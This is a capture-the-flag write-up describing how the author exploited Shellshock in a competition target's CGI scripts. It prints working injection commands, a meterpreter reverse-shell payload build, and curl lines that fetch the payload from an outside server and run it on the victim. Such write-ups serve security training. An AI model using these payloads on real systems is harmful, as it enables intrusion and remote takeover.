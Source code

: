 Target: 54.83.28.186

Note: I did won't be saying how to get Flag 5, as I got an "incorrect" way from another group after the competition and don't want to spoil their secret.

This challenge had a System Monitoring dashboard which had a few CGI Scripts.  The names of the CGI files were standard linux binaries (ps, who, ifconfig, etc).  This led me to believe the CGI Scripts were just bash scripts, which had a major vulnerability recently (September 2014).  The dashboard had a "Package List" so I went there to confirm the version of bash and saw it was at 4.2-2, which is vulnerable to Shellshock.

Since Apache passes the User Agent to the CGI Scripts, it is possible to exploit over the web.  I had used a simple curl string to confirm the server was vulnerable: `curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls' https://54.83.28.186/cgi-bin/sysinfo.cgi`.  Once I confirmed it was vulnerable I had copied a list of all the filenames the www-data had access to via: `curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /usr/bin/find /' https://54.83.28.186/cgi-bin/sysinfo.cgi > files.lst`.  Running grep flag files.lst, I was able to find 4 flag locations, a simple cat would retrieve the flags.  Unfortunately, the fifth flag was not there, I had done recursive grep for NCL- to search the contents of every file www-data had access to.  No luck.

In order to perform the actual exploit; I assume you will need a shell, so here is how to load meterpreter.  Since this is a Reverse Connect, you will need to ensure that the <PORT> specified below is routable over the WAN by most likely creating a NAT Rule.

Generate the payload with: `msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R | msfencode -t elf -o meterpreter -e generic/none` and then upload it to a webserver.  Once it is uploaded open msfconsole and run:
<ul>
	<li>use exploit/multi/handler</li>
	<li>set LHOST 0.0.0.0</li>
	<li>set LPORT [PORT]</li>
	<li>set payload linux/x86/meterpreter/reverse_tcp</li>
	<li>exploit</li>
</ul>
Open a new terminal window and execute the meterpreter shell on the victim by running:

<ul>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/rm -f /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /usr/bin/curl <url to meterpreter> -o /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/chmod +x /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
</ul>

And back on your metasploit session, you should have a meterpreter session; simply enter `shell` and you should be granted with a full shell on the victim!
